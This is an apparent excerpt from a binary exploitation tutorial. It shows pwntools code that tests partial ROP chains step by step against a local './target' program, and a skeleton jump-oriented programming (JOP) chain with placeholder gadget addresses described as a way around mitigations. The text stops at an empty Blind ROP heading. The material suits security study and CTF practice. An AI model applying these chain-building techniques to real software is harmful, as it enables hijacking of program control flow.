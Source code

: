 ```python
    for i, (addr, desc) in enumerate(steps):
        print(f"Testing step {i+1}: {desc}")
        
        partial_chain = b''.join(p64(a) for a, _ in steps[:i+2])
        payload = base_payload + partial_chain
        
        # Test with timeout
        try:
            p = process('./target', timeout=2)
            p.sendline(payload)
            output = p.recvall()
            print(f"  Result: {output[:50]}...")
        except:
            print(f"  Step {i+1} failed or timed out")
        finally:
            if 'p' in locals():
                p.close()
```

## Advanced ROP Mitigation Bypasses

### JOP (Jump-oriented Programming)

```python
#!/usr/bin/env python3
from pwn import *

def jop_chain():
    """Use JMP/CALL gadgets instead of RET"""
    
    # JOP uses indirect jumps/calls
    # Gadgets end with jmp [reg] or call [reg]
    
    jmp_rax = 0x400123    # jmp rax
    pop_rax = 0x400124    # pop rax; ret
    
    # JOP dispatcher - cycles through gadgets
    dispatcher = jmp_rax
    
    # Virtual registers on stack/memory
    virtual_regs = {
        'vrax': 0x601000,
        'vrbx': 0x601008,
        'vrcx': 0x601010
    }
    
    # JOP chain uses memory-based execution
    # More complex than ROP but can bypass some mitigations
```

### Blind ROP (BROP)
